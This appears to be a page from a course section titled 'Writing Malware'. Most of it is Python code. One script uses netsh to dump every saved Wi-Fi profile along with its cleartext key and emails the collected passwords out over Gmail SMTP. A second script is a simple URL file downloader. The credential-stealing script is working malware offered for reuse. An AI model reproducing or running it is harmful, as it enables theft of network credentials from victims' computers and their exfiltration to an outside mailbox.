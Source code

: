 
## 13 - Writing Malware

### 13.1 Execute Command

- Execute any system command on any OS.

#### Code 

```
#!/usr/bin/env python

# execute_report.py

import subprocess, smtplib, re

def send_mail(email, password, message):
	server = smtplib.SMTP("smtp.gmail.com", 587)
	server.starttls()
	server.login(email, password)
	server.sendmail(email, email, message)
	server.quit()

# command = "msg * hacked"
# subprocess.Popen(command, shell=True)

command = "netsh wlan show profile"
networks = subprocess.check_output(command, shell=True)
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)

result = ""
for network_name in network_names_list:
	command = "netsh wlan show profiles " + network_name + " key=clear"
	current_result = subprocess.check_output(command, shell=True)
	result += current_result 

send_mail("abc@gmail.com", "abcabc", result)
```

```
#!/usr/bin/env python

# download_file.py

import requests 

def download(url):
	response = requests.get(url)
	print(response)
	print(response.content)
	file_name = url.split("/")[-1]
	with open(file_name, "wb") as out_file:
		out_file.write(response.content)
	
download("https://i0.wp.com/myautoworld.com/wp-content/uploads/2016/11/2017_Nissan_Sentra_NISMO_27.jpg")
```
